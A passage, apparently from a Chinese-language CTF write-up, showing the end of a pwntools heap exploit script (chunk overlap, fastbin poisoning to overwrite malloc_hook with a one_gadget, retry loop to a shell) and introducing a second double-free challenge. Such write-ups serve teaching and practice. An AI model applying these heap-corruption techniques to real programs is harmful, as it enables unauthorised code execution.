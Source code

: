 ```python
	delete(2)
	add(0,0x28,'a'*0x28+'\xa1')
	delete(1)
	add(1,0x28,'\x00')
	add(2,0x50,p64(malloc_hook-0x23))
	add(2,0x60,'\x00')
	add(2,0x60,'a'*0x13+p64(one_gadget[3]))
	p.interactive()

while True:
	try:
		global p
		p = process('./pwn')
		pwn()
		break
		
	except:
		p.close()
		print 'trying...'
```



## 例题二：nepctf sooooeasy

**关键字：_IO_2_1_stdout\_、double free**

逻辑也很简单，只有add和delete，存在double free，本来想double free修改size来做，但这样会变得很麻烦，而且申请的堆块太多了，大于题目要求，看了wp发现了更好的堆块分布，确实是非常好的利用思路。
